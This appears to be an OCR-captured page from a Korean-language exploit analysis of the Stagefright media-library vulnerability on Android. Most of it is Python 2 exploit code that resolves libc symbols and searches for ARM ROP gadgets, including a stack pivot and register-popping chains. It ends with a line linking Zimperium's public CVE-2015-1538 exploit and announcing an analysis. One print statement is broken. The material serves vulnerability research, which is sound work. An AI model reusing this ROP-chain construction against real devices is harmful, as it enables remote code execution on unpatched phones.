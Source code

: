 ```
    e.address = libc_base

    memcpy = e.symbols['memcpy']
    print '[*] memcpy : 0x{:08x}'.format(memcpy)
    mmap64 = e.symbols['mmap64']
    print '[*] mmap64 : 0x{:08x}'.format(mmap64)

    # ADD       R2, R0, #0x4C
    # LDMIA     R2, {R4-LR}
    # TEQ       SP, #0
    # TEQNE     LR, #0
    # BEQ       botch_0
    # MOV       R0, R1
    # TEQ       R0, #0
    # MOVEQ     R0, #1
    # BX        LR

    pivot_asm = ''
    pivot_asm += 'add   r2, r0, #0x4c\n'
    pivot_asm += 'ldmia r2, {r4 - lr}\n'
    pivot_asm += 'teq   sp, #0\n'
    pivot_asm += 'teqne lr, #0'
    stack_pivot = find_arm_gadget(e, pivot_asm)
    print '[*] stack_pivot : 0x{:08x}.format(stack_pivot)

    pop_pc_asm = 'pop {pc}'
    pop_pc = find_gadget(e, pop_pc_asm)
    print '[*] pop_pc : 0x{:08x}'.format(pop_pc)

    pop_r0_r1_r2_r3_pc = find_gadget(e, 'pop {r0, r1, r2, r3, pc}')
    print '[*] pop_r0_r1_r2_r3_pc : 0x{:08x}'.format(pop_r0_r1_r2_r3_pc)

    pop_r4_r5_r6_r7_pc = find_gadget(e, 'pop {r4, r5, r6, r7, pc}')
    print '[*] pop_r4_r5_r6_r7_pc : 0x{:08x}'.format(pop_r4_r5_r6_r7_pc)

    ldr_lr_bx_lr_stack_pad = 0
    for i in range(0, 0x100, 4):
        ldr_lr_bx_lr_asm = 'ldr lr, [sp, #0x{:08x}]\n'.format(i)
        ldr_lr_bx_lr_asm += 'add sp, sp, #0x{:08x}\n'.format(i + 8)
        ldr_lr_bx_lr_asm += 'bx lr'
        ldr_lr_bx_lr = find_gadget(e, ldr_lr_bx_lr_asm)
        if ldr_lr_bx_lr is not None:
            ldr_lr_bx_lr_stack_pad = i
            break

    def pad(size):
        return '#' * size
```

#### Zimperium Exploit

Joshua Drake 가 [exploit](https://raw.githubusercontent.com/jduck/cve-2015-1538-1/master/Stagefright_CVE-2015-1538-1_Exploit.py) 을 공개했다. 분석해본다.

